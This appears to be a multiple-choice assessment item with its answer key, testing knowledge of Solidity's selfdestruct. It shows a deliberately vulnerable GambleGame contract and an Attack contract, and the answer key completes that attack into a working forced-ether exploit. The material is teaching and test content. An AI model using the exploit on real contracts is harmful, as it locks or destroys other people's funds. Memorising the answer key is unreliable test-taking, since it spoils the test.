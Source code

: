 # Selfdestruct

## Item ID
2580

## Claim
1

## Claim Behavior (evidence)
https://eips.ethereum.org/EIPS/eip-6

https://solidity-by-example.org/hacks/self-destruct/

## Content Target
Selfdestruct

## Cognitive Model
Use

## Item Type
Multiple Choice 

## Stem
The following contract has a bug. Choose the option that correctly identifies and fixes the bug.

## Code Snippet (optional)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GambleGame {
    uint public targetAmount = 10 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether);

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Goodbye");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send crypto");
    }
}

contract Attack {
    GambleGame gambleGame;

    constructor(GambleGame _gambleGame) {
        gambleGame = GambleGame(_gambleGame);
    }

    function attack() public payable {
        address payable addr = payable(address(gambleGame));
        delete(addr);
    }
}
// solidity-by-example.org: MIT License
```

## Answer Key
```solidity
delete(addr);
```

should look like: 
```solidity
selfdestruct(addr);
```

## Distractors
### 1.
```solidity
 address payable addr = payable(address(gambleGame));
```

should look like:
```solidity
 address addr = payable(address(gambleGame));
```

### 2.
```solidity
function deposit() public payable {
```

should look like:
```solidity
function deposit() private payable {
```

### 3.
```solidity
uint public targetAmount = 10 ether;
```

should look like:
```solidity
int public targetAmount = 10 ether;
```

## Common errors, misconceptions, or irrelevant information:

# Triplebyte Review

## Language Review: (TB only)

## Bias and Fairness Review: (TB only)

## Content Review: (TB only)
